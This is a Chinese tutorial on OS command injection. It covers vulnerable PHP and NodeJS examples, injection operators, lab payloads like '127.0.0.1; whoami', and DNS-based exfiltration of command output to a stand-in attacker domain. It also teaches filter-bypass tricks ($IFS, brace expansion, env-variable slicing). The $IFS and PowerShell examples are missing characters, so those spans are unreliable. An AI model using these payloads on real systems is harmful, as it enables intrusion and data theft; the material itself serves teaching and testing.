# 一.简介

## 什么是命令注入?

操作系统命令注入也称为 shell 注入。它允许攻击者在运行应用程序的服务器上执行操作系统 (OS) 命令，通常会导致应用程序及其数据完全被攻陷。例如，在一个名为joe的用户下运行的Web服务器上实现命令注入，将会以joe用户身份执行命令——因此将获得joe用户所拥有的任何权限。

命令注入也常被称为“远程代码执行”（RCE），因为它允许攻击者远程执行应用程序中的代码。这类漏洞对攻击者来说往往最具吸引力，因为这意味着攻击者可以直接与易受攻击的系统进行交互。例如，攻击者可以读取系统或用户文件、数据以及其他类似内容。

例如，能够滥用应用程序执行 whoami 命令来列出应用程序正在运行的用户帐户，就是命令注入的一个例子。

谈到操作系统命令注入漏洞，我们所控制的用户输入必须直接或间接进入（或以某种方式影响）某条会执行系统命令的 Web 请求。所有 Web 编程语言都提供了不同的函数，允许开发者在需要时，直接在后端服务器上执行操作系统命令。这类功能可用于多种场景，例如安装插件或运行特定应用程序。

## PHP 示例

例如，用 PHP 编写的 Web 应用程序可能会使用 exec 、 system 、 shell_exec 、 passthru 或 popen 函数直接在后端服务器上执行命令，每个函数的使用场景略有不同。以下代码示例展示了一段容易受到命令注入攻击的 PHP 代码：

```php
<?php
if (isset($_GET['filename'])) {
    system("touch /tmp/" . $_GET['filename'] . ".pdf");
}
?>
```

假设某个 Web 应用程序具有允许用户创建新的 .pdf 文档的功能，该文档会创建在 /tmp 目录下，文件名由用户指定，然后供 Web 应用程序进行文档处理。然而，由于 GET 请求中 filename 参数的用户输入未经任何过滤或转义就直接用于 touch 命令，该 Web 应用程序容易受到操作系统命令注入攻击。攻击者可以利用此漏洞在后端服务器上执行任意系统命令。

## NodeJS 示例

这并非 PHP 独有，任何 Web 开发框架或语言都可能出现这种情况。例如，如果使用 `NodeJS` 开发 Web 应用程序，开发人员可以使用 `child_process.exec `或 `child_process.spawn` 来实现相同的目的。以下示例实现了与我们上面讨论的类似功能：

```javascript
app.get("/createfile", function(req, res){
    child_process.exec(`touch /tmp/${req.query.filename}.txt`);
})

```

上述代码也存在命令注入漏洞，因为它未经事先清理就将 GET 请求中的 ` filename` 参数作为命令的一部分使用。`PHP `和 `NodeJS`Web 应用程序都可能受到相同 PHP 注入方法的攻击。

# 二. 检测和利用

检测基本的操作系统命令注入漏洞的过程与利用此类漏洞的过程相同。我们尝试通过各种注入方法附加我们的命令。如果命令输出与预期的正常结果不同，则说明我们已成功利用该漏洞。但对于更高级的命令注入漏洞，情况可能并非如此，因为我们可以使用各种模糊测试方法或代码审查来识别潜在的命令注入漏洞。然后，我们可以逐步构建有效载荷，直至实现命令注入。

## 检测

命令注入主要可以通过以下两种方式之一进行检测：

1. **Blind command injection**
   这种注入方式是指在测试有效载荷时，应用程序不会直接输出任何内容。您需要调查应用程序的行为，以确定有效载荷是否成功注入。
2. *Verbose command injection*
   这种注入方式是指在测试有效载荷后，应用程序会直接提供反馈。例如，运行 whoami 命令来查看应用程序当前运行的用户。Web 应用程序会将用户名直接输出到页面上

## 1.带详细输出的命令注入

> Verbose command injection 有的网站也叫 basic command injections,

详细的命令注入是指应用程序会提供反馈或输出，告知你正在发生或正在执行的操作。例如， `ping` 或 `whoami` 等命令的输出结果会直接显示在 Web 应用程序上。

当我们访问以下练习中的 Web 应用程序时，会看到一个 Host Checker 实用程序，它会要求我们输入 IP 地址以检查该应用程序是否存活：



我们可以尝试输入本地主机 IP 地址 127.0.0.1 来检查其功能，正如预期的那样，它返回了 ping 命令的输出，告诉我们本地主机确实处于活动状态：



虽然我们无法访问该 Web 应用程序的源代码，但根据我们收到的输出结果，我们可以肯定地推测我们输入的 IP 地址正在用于 ping 命令。由于结果显示 ping 命令只发送了一个数据包，因此使用的命令可能是以下形式：

```bash
ping -c 1 OUR_INPUT
```

如果我们的输入在与 ping 命令一起使用之前没有经过清理和转义，我们可能就能注入其他任意命令。因此，让我们来测试一下这个 Web 应用程序是否存在操作系统命令注入漏洞。

### 利用

要向目标命令中插入额外的命令，我们可以使用以下任何运算符：

| 注入运算符 | 注入字符 | URL 编码字符 | 执行效果                                       |
| ---------- | -------- | ------------ | ---------------------------------------------- |
| 分号       | ;        | %3b          | 执行两条命令                                   |
| 换行符     | \n       | %0a          | 执行两条命令                                   |
| 后台运行符 | &        | %26          | 执行两条命令（通常第二条结果先显示）           |
| 管道符     | \|       | %7c          | 执行两条命令（仅显示第二条输出）               |
| 逻辑与     | &&       | %26%26       | 执行两条命令（仅第一条执行成功时才执行第二条） |
| 逻辑或     | \|\|     | %7c%7c       | 执行第二条命令（仅第一条执行失败时才执行）     |
| 子 Shell   | ``       | %60%60       | 执行两条命令（仅限 Linux）                     |
| 子 Shell   | $()      | %24%28%29    | 执行两条命令（仅限 Linux）                     |

我们可以使用上述任意一种分隔符注入另一条命令，让两条命令或其中一条被执行。只需要先输入程序预期的内容（比如一个 IP 地址），再用上面任意一种注入符，最后跟上我们要执行的恶意命令即可。
**一般情况下，对于基础的命令注入漏洞，无论 Web 应用使用哪种开发语言、框架或后端服务器，这些分隔符基本都能通用。**也就是说，无论是运行在 Linux 上的 PHP 应用、Windows 上的.NET 应用，还是 macOS 上的 Node.js 应用，我们的注入语句通常都能生效。
注意：唯一可能的例外是分号 `;`。如果命令通过 Windows 命令行（`CMD`）执行，分号无法使用；但如果是通过 `PowerShell`执行，则依然有效。

我们可以在输入的 IP 地址 127.0.0.1 后面添加一个分号，然后附加我们的命令（例如 whoami ），这样我们最终使用的有效载荷就是 ( 127.0.0.1; whoami )，最终要执行的命令将是：

```bash
ping -c 1 127.0.0.1; whoami
```

首先，让我们在 Linux 虚拟机上运行上述命令，以确保它能够运行：

```bash
$ ping -c 1 127.0.0.1; whoami

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=1.03 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1.034/1.034/1.034/0.000 ms
21y4d
```

如我们所见，最后一个命令成功运行，并且我们得到了两个命令的输出（如上表中所述 `; `。现在，我们可以尝试在 Host Checker Web 应用程序中使用之前的有效负载：



正如我们所见，该网页应用程序拒绝了我们的输入，因为它似乎只接受 IP 格式的输入。然而，从错误信息来看，问题似乎出在前端而非后端。我们可以使用 Firefox Developer Tools 再次确认这一点：按下 [CTRL + SHIFT + E] 打开“网络”选项卡，然后再次点击 Check 按钮。



可以看到，我们点击 Check 按钮时**并没有产生新的网络请求**，但却收到了一条错误提示。这**表明用户输入校验是在前端完成的。**

前端验证通常不足以防止注入，因为可以通过直接向后端发送自定义 HTTP 请求来轻松绕过它们。
自定义发送到后端服务器的 HTTP 请求最简单的方法是使用 Web 代理来拦截应用程序发送的 HTTP 请求。为此，我们可以启动 Burp Suite 或 ZAP ，并将 Firefox 配置为通过它们代理流量。然后，我们可以启用代理拦截功能，从 Web 应用程序发送一个使用任意 IP 地址（例如 127.0.0.1 ）的标准请求，然后按 [CTRL + R] 将拦截到的 HTTP 请求发送到 repeater ，这样我们就得到了可以自定义的 HTTP 请求：

我们首先使用之前的有效负载（ 127.0.0.1; whoami ）。我们还应该对有效负载进行 URL 编码，以确保它按预期发送。



我们可以看到，这次得到的响应包含了 ping 命令的输出和 whoami 命令的结果。

其他的命令注入符,应该是linux基础知识,这里不详细介绍.

## 2. 盲注命令漏洞

许多操作系统命令注入漏洞都属于盲漏洞。这意味着应用程序不会在其 HTTP 响应中返回命令的输出结果。盲漏洞虽然也能被利用，但需要采用不同的技术。

例如，假设有一个网站允许用户提交网站反馈。用户输入他们的电子邮件地址和反馈信息。然后，服务器端应用程序会生成一封包含反馈的电子邮件发送给网站管理员。为此，它会调用 mail 程序并传递提交的详细信息：

```bash
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

mail 命令的输出（如果有）不会包含在应用程序的响应中，因此使用 echo 命令将不起作用。在这种情况下，您可以使用多种其他技术来检测和利用漏洞。

### 2.1 利用时间延迟

您可以使用注入的命令来触发时间延迟，从而根据应用程序的响应时间来确认命令是否已执行。ping 命令是实现此目的的好方法，因为它允许您指定要发送的 ICMP 数据包的数量。这样 ping 您就可以控制命令的运行时间：

```bash
& ping -c 10 127.0.0.1 &
```

### 2.2 定向输出

您可以将注入命令的输出重定向到网站根目录下的一个文件中，然后使用浏览器访问该文件。例如，如果应用程序从文件系统位置 /var/www/static 提供静态资源，则可以提交以下输入：

```bash
& whoami > /var/www/static/whoami.txt &

```


`>`字符会将 whoami 命令的输出发送到指定的文件。然后，您可以使用浏览器访问 https://vulnerable-website.com/whoami.txt 来检索该文件，并查看注入命令的输出。

### 2.3 带外（OAST）技术

您可以使用注入的命令，通过 OAST 技术触发与您控制的系统之间的带外网络交互。例如：

```bash
& nslookup kgji2ohoyw.web-attacker.com &
```

此有效载荷使用 nslookup 命令对指定域名进行 DNS 查询。攻击者可以监控查询是否发生，以确认命令是否成功注入。

带外通道提供了一种简便的方法来提取注入命令的输出：

```bash
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

这将导致对攻击者域名的 DNS 查询，其中包含 whoami 命令的结果：

```url
wwwuser.kgji2ohoyw.web-attacker.com
```


# 三 .过滤和绕过过滤

即使开发人员试图保护 Web 应用程序免受注入攻击，如果代码本身不够安全，它仍然可能被利用。另一种注入缓解方法是在后端使用黑名单字符和单词来检测注入尝试，并拒绝包含这些字符和单词的请求。在此基础上，还可以使用 Web 应用程序防火墙 (WAF)，它具有更广泛的覆盖范围和多种注入检测方法，并且可以阻止 SQL 注入或 XSS 攻击等其他各种攻击。本节将通过几个例子来说明如何检测和阻止命令注入，以及如何识别被阻止的内容。

## Filter/WAF 检测

之前一直在利用的 Host Checker Web 应用程序，但现在它采取了一些缓解措施。我们可以看到，如果我们尝试之前测试过的运算符，例如 (`;`, `&& `,` ||` )，则会收到错误消息 invalid input ”。



这表明我们发送的某些内容触发了已部署的安全机制，从而拒绝了我们的请求。该错误信息的展示形式可能多种多样。在本例中，错误出现在结果输出区域，说明它是被 PHP Web 应用自身检测并拦截的。如果错误信息展示为另一个独立页面，并包含我们的 IP 与请求详情等内容，则可能说明请求是被 Web 应用防火墙（WAF）所阻止的。

## 黑名单

Web 应用程序可能有一个黑名单字符列表，如果命令中包含这些字符，则会拒绝该请求。PHP 可能如下所示：

```php
$blacklist = ['&', '|', ';', ...SNIP...];
foreach ($blacklist as $character) {
    if (strpos($_POST['ip'], $character) !== false) {
        echo "Invalid input";
    }
}
```

如果我们发送的字符串中的任何字符与黑名单中的字符匹配，则我们的请求将被拒绝。在尝试绕过过滤器之前，我们应该先确定是哪个字符导致了请求被拒绝。

让我们一次发送一个字符的请求，看看何时会被阻止。我们知道 ( 127.0.0.1 ) 的有效载荷是有效的，所以让我们先添加分号 ( 127.0.0.1; )：



我们仍然收到 invalid input 错误，这意味着分号被列入了黑名单。所以，让我们看看之前讨论过的所有注入运算符是否都被列入了黑名单。



可以看到 **换行符** 的url编码格式没有被列入黑名单中

### 1. 绕过空格黑名单

现在我们有了一个可用的注入操作符，让我们修改原始有效载荷并再次发送它，例如（ 127.0.0.1%0a whoami ）：



正如我们所见，我们仍然收到 invalid input 错误信息，这意味着我们还需要绕过其他过滤器。所以，就像之前一样，我们只添加下一个字符（空格），看看是否会导致请求被拒绝：

正如我们所见，空格字符也确实被列入了黑名单。空格是一种常见的黑名单字符，尤其是在输入内容不应包含空格的情况下，例如 IP 地址。不过，仍然有很多方法可以在不使用空格字符的情况下添加空格！

#### 使用制表符绕过

使用制表符 (%09) 代替空格或许可行，因为 Linux 和 Windows 都接受参数之间使用制表符的命令，并且它们的执行方式相同。所以，让我们尝试使用制表符代替空格字符 (`127.0.0.1%0a%09`)，看看我们的请求是否被接受：



正如我们所见，我们通过使用制表符成功绕过了空格字符过滤器。接下来，我们来看另一种替换空格字符的方法。

#### 使用 $IFS

使用 Linux 环境变量 (\$IFS) 也可能有效，因为它的默认值是一个空格和一个制表符，这可以用于分隔命令参数。所以，如果我们用 ` `代替空格，变量应该会自动替换为空格，我们的命令就能正常运行了。

看看它是否有效（ `127.0.0.1%0a` ）：



#### 使用括号展开

使用 Bash Brace Expansion 功能，该功能会自动在大括号包裹的参数之间添加空格，如下所示：

```bash
$ {ls,-la}

total 0
drwxr-xr-x 1 21y4d 21y4d   0 Jul 13 07:37 .
drwxr-xr-x 1 21y4d 21y4d   0 Jul 13 13:01 ..
```

该命令在没有空格的情况下成功执行。我们可以利用相同的方法绕过命令注入过滤器，即在命令参数中使用花括号展开，例如 ( 127.0.0.1%0a{ls,-la} )。要了解更多绕过空格过滤器的方法，请查看 [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space) 网站上关于编写无空格命令的页面。

### 2. 绕过斜杠黑名单

除了注入运算符和空格字符外，斜杠（ / ）或反斜杠（ \ ）也是常见的黑名单字符，因为在 Linux 或 Windows 系统中，它们对于指定目录至关重要。我们可以利用多种技术来生成所需的任何字符，同时避免使用黑名单字符。

#### Linux

其中一种用于替换斜杠（或其他字符）的技巧是借助 Linux 环境变量实现，就像我们之前使用 \${IFS} 那样。虽然 \${IFS} 会被直接替换为空格，但并不存在专门表示斜杠或分号的环境变量。不过，这些字符可以存在于某个环境变量中，**我们可以通过指定字符串的起始位置和长度，精准截取到目标字符。**

例如，如果我们查看 Linux 中的 $PATH 环境变量，它可能看起来像这样：

```bash
$ echo ${PATH}

/usr/local/bin:/usr/bin:/bin:/usr/games
```

所以，如果我们从第 0 字符开始，并且只取长度为 1 字符串，最终只会得到 / 字符，我们可以将其用于有效载荷中：

```bash
$ echo ${PATH:0:1}

/
```

我们也可以使用相同的方法操作 `$HOME` 或者 `$PWD `环境变量。此外，我们还可以使用相同的概念获取分号字符，并将其用作注入运算符。例如，以下命令会生成一个分号：

```bash
$ echo ${LS_COLORS:10:1}

;
```

> 练习：尝试理解上述命令如何生成分号，然后在有效载荷中使用该分号作为注入运算符。提示： printenv 命令会打印 Linux 中的所有环境变量，因此您可以查看哪些环境变量可能包含有用的字符，然后尝试将字符串简化为仅包含该字符。

我们尝试使用环境变量在我们的有效载荷（ 127.0.0.1\${LS_COLORS:10:1}\${IFS} ）中添加一个分号和一个空格，看看是否可以绕过过滤器：



正如我们所看到的，这次我们也成功绕过了字符过滤器。

#### Windows

这一思路在 Windows 系统下同样适用。例如，想要在 Windows 命令行（CMD）中构造出斜杠，我们可以先输出一个 Windows 环境变量（% HOMEPATH% -> \Users\htb-student），接着指定起始位置（~6 -> \htb-student），最后指定一个负数结束位置 —— 这里取用户名 htb-student 的长度（-11 -> \）即可。

```cmd
C:\htb> echo %HOMEPATH:~6,-11%

\
```

我们可以使用相同的变量在 Windows PowerShell 中实现同样的功能。在 PowerShell 中，单词被视为一个数组，因此我们需要指定所需字符的索引。由于我们只需要一个字符，因此无需指定起始和结束位置：

```powershell
PS C:\htb> $env:HOMEPATH[0]

\


PS C:\htb> $env:PR
```

我们还可以使用 PowerShell 命令 Get-ChildItem Env: 列出所有环境变量，然后挑选其中一个，从中提取出我们需要的字符。不妨发挥创意，尝试用其他命令来构造出类似的字符。

#### 字符移位

除了直接使用目标字符外，还有其他技巧可以构造出所需字符，例如字符移位法。比如下面这条 Linux 命令可以将我们传入的字符 ASCII 码加 1。因此我们只需要在 ASCII 表中找到刚好位于目标字符前一位的字符（可以通过 `man ascii `查看），然后用它替换下面示例中的 `[`即可。这样最终输出的字符就是我们需要的字符。

```bash
$ man ascii     # \ is on 92, before it is [ on 91
$ echo $(tr '!-}' '"-~'<<<[)

\
```

> 类似凯撒密码的移位操作

练习：尝试使用字符移位技术生成分号 ; 字符。首先在 ASCII 表中找到分号前面的字符，然后在上面的命令中使用它。

`echo $(tr '!-}' '"-~' <<<:)`

### 3. 绕过黑名单命令

